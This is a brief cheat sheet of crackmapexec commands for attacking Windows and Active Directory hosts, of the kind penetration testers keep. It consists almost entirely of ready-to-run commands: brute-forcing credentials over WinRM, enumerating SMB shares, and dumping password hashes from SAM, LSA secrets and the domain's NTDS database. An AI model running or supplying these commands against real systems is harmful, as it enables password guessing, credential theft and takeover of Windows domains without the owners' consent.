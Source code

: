 # cme (deprecated)

% cme, crackmapexec, windows, Active directory

## crackmapexec - Brute force user names and passwords over WinRM
```
crackmapexec winrm <ip> -u user.list -p password.list
```

## crackmapexec - Enumerate SMB shares
```
crackmapexec smb <ip> -u "user" -p "password" --shares
```

## crackmapexec - Dump password hashes from SAM
```
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
```

## crackmapexec - Dump LSA secrets
```
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
```

## crackmapexec - Dump hashes from NTDS file
```
crackmapexec smb <ip> -u <username> -p <password> --ntds
```
